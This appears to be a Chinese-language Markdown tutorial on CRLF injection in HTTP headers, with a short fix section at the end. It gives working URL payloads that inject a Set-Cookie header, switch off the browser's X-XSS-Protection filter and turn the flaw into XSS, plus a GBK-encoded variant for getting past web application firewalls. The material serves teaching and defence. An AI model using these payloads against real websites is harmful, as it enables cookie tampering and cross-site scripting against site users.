

- [CRLF Inject](#crlf-inject)
  - [绕过XSS Filter](#绕过xss-filter)
  - [XSS](#xss)
  - [GBK编码](#gbk编码)
  - [修复方案](#修复方案)
# CRLF Inject
CRLF代表特殊字符回车符（\r）和换行符（\n），这是特定操作系统（如Windows）中使用的两个元素，以及各种互联网协议（如HTTP）。回车符表示行的末尾，而换行符表示新行。

通常，CRLF组合的目的是指示文本流中的对象结束或开始的位置。例如，当客户端（浏览器）请求网站上的内容时，服务器会返回带有称为响应正文的 HTTP 标头的内容。响应中的标头通过 CR 和 LF 与实际网站内容分开.  

  
但是，CRLF 字符序列可能被恶意用作 CRLF 注入攻击。此攻击是在应用程序层进行的服务器端注入。

通过利用服务器中的 CRLF 注入漏洞（允许用户从不受信任的源输入），攻击者可以拆分文本流并引入未经中和或清理的恶意内容。
## 绕过XSS Filter
通过注入一个CRLF就可以注入Header到响应的body中，因为浏览器是以\r\n来分割每一行的,而`\r\n`的url编码即为`%0d%0a`.
比如url:`http://www.domain.com/returnurl=http://baidu.com`  
响应如下：
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Location: http://baidu.com
```
returnurl的值为设置为了302跳转的Location值，插入到了Header中，这个时候就可以在returnurl中注入CRLF.  
如:`http://www.domain.com/returnurl=%0d%0aSet-cookie:test%3Dhttp://baidu.com`
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test
Location: http://baidu.com
```  
就可以成功注入一个`Set-cookie`Header在响应头中，同理可以注入任意的Header。
当遇到浏览器Filter，开启了`X-XSS-Protection:1`时，浏览器会对XSS进行拦截，通过CRLF可以直接注入一个`X-XSS-Protection=0`来直接关闭XSS Filter。
## XSS
通过注入两个CRLF，既可以造成XSS，因为浏览器是以两个CRLF来将Header和Body进行区分解析的。
比如URL:`http://www.domain.com/returnurl=%0d%0a%0d%0a`  
响应就会如下:
```http
HTTP/1.1 302 Moved Temporarily 
Content-Type: text/html 
Content-Length: 154 
Connection: close 
Set-cookie:test\r\n
\r\n

```  
最终导致XSS。
## GBK编码
有些WAF会对`%0d%0a`进行拦截，可以考虑使用GBK编码绕过。   
Payload: CRLF ---> 嘍嘊(GBK) ---> `%E5%98%8D%E5%98%8A`(URLEncode)  
exp:`https://subDomain/%E5%98%8D%E5%98%8ASet-Cookie:crlfinjection=test`  
[$6000 with Microsoft Hall of Fame | Microsoft Firewall Bypass | CRLF to XSS | Microsoft Bug Bounty](https://infosecwriteups.com/6000-with-microsoft-hall-of-fame-microsoft-firewall-bypass-crlf-to-xss-microsoft-bug-bounty-8f6615c47922)
## 修复方案
过滤\r 、\n之类的换行符，避免输入的数据污染到其他HTTP头。